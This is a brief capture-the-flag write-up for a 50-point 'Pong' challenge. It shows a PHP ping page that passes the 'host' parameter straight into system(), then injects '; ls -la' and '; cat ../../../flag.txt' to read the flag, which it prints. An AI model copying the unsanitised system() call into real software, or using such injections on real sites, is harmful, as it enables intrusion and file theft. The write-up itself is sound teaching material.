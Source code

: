 # Pong

### 50 Points

## Information
    Author: skyv3il

    Some random website that can ping hosts.
    What's the flag ?


 

## Steps done

1 - We visited the url and it returned the message `Command executed: ping -c 2 127.0.0.1` 
2 - After some tries, we sent the query parameter host with value 8.8.8.8 `?host=8.8.8` and the response was `Command executed: ping -c 2 8.8.8.8`
3 - After it we tried to inject a command `ls -la` `?host=8.8.8; ls -la` and the reponse contained the directory listing, with the php file 

    <pre><?php


    if(isset($_GET['host'])){
        echo "<pre>";
        system("ping -c 2 " . $_GET['host']);
        echo "</pre>";
    }
    else{
        header('Location: '.$_SERVER['PHP_SELF']."?host=127.0.0.1");
    die;
    }

4 - We checked upper directories with `ls -la ../` and we found a file called flag.txt on  `../../../flag.txt`
5 - We printed the content of the file with `?host=8.8.8; cat ../../../flag.txt` and we obtained the flag  `TFCCTF{C0mm4nd_1nj3c5i0n_1s_E4sy}`
